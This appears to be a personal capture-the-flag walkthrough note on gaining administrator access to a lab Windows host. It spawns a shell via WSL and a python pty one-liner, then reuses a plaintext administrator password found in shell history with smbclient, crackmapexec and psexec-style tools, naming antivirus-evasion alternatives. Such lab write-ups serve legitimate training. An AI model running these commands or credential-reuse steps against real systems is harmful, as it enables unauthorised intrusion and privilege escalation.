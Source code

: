![[Pasted image 20250414170532.png]]
# Find the WSL binary
---
- `where /R c:\windows wsl.exe`
- ![[Pasted image 20250414164004.png]]
- `c:\Windows\System32\wsl.exe whoami`
	- ![[Pasted image 20250414164036.png]]

# Getting a shell on linux
---
- `C:\inetpub\new-site>c:\Windows\System32\bash.exe`
	- ![[Pasted image 20250414164104.png]]
- `python -c "import pty;pty.spawn('/bin/bash')"`
	- ![[Pasted image 20250414164229.png]]

# Getting shell on windows using python
---
- Checking history
	- ![[Pasted image 20250414164330.png]]
- Connect with smb shares again with administrator:
	- `smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$`
	- ![[Pasted image 20250414164532.png]]
# Impacket crackmapexe / psexec
---
- `crackmapexec smb 10.10.10.97 -u administrator -p 'u6!4ZwgwOM#^OBf#Nwnh' -X whoami`
	![[Pasted image 20250414165409.png]]
	![[Pasted image 20250414165526.png]]

# If Antivirus Blocks
---
- We can use `wmiexec`or `smbexec`:
	- ![[Pasted image 20250414165623.png]]